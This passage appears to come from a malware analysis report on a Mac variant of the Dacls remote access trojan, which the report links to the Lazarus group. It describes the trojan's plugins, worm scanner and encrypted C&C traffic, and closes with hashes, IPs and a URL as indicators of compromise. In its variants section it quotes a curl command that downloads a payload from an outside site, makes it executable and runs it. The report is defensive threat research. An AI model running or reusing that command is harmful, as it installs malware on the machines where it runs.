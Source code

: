  If the “/proc/%d/task” directory of a process is accessible, the plugin obtains the following information from the process where %d is the process ID: Command line arguments of the process by executing “/proc/ %/cmdline” Name, Uid, Gid, PPid of the process from the “/proc/%d/status” file.  Test plugin The code for the Test plugin between Mac and Linux variant is the same. It checks the connection to an IP and Port specified by the C&C servers. RP2P plugin The RP2P plugin is a proxy server used to avoid direct communications from the victim to the actor’s infrastructure.     LogSend plugin The Logsend plugin contains three modules that:  Check connection to the Log serverScan network (worm scanner module)Execute long run system commands    This plugin sends the collected logs using HTTP post requests.     An interesting function in this plugin is the worm scanner. The “start_worm_scan” can scan a network subnet on ports 8291 or 8292. The subnet that gets scanned is determined based on a set of predefined rules. The following diagram shows the process of selecting the subnet to scan.     Socks plugin The Socks plugin is the new, seventh plugin added to this Mac Rat. It is similar to the RP2P plugin and acts as an intermediary to direct the traffic between bot and C&C infrastructure. It uses Socks4 for its proxy communications.     Network Communications C&C communication used by This Mac RAT is similar to the Linux variant. To connect to the server, the application first establishes a TLS connection and then performs beaconing and finally encrypts the data sent over SSL using the RC4 algorithm.       Both Mac and Linux variants use the WolfSSL library for SSL communications. WolfSSL is an open-source implementation of TLS in C that supports multiple platforms. This library has been used by several threat actors. For example, Tropic Trooper used this library in its Keyboys malware.    The command codes used for beaconing are the same as the codes used in Linux.dacls.  This is to confirm the identity of the bot and the server.    The RC4 key is generated by using a hard-coded key.     Variants and detection We also identified another variant of this RAT which downloads the malicious payload using the following curl command:  curl -k -o ~/Library/.mina https://loneeaglerecords.com/wp-content/uploads/2020/01/images.tgz.001 > /dev/null 2>&1 && chmod +x ~/Library/.mina > /dev/null 2>&1 && ~/Library/.mina > /dev We believe this Mac variant of the Dcals RAT is associated with the Lazarus group, also known as Hidden Cobra and APT 38, an infamous North Korean threat actor performing cyber espionage and cyber-crime operations since 2009.  The group is known to be one of the most sophisticated actors, capable of making custom malware to target different platforms. The discovery of this Mac RAT shows that this APT group is constantly developing its malware toolset. Malwarebytes for Mac detects this remote administration Trojan as OSX-DaclsRAT.       IOCs 899e66ede95686a06394f707dd09b7c29af68f95d22136f0a023bfd01390ad53 846d8647d27a0d729df40b13a644f3bffdc95f6d0e600f2195c85628d59f1dc6 216a83e54cac48a75b7e071d0262d98739c840fd8cd6d0b48a9c166b69acd57d d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd d3235a29d254d0b73ff8b5445c962cd3b841f487469d60a02819c0eb347111dd loneeaglerecords[.]com/wp-content/uploads/2020/01/images.tgz.001  67.43.239.146 185.62.58.207 50.87.144.227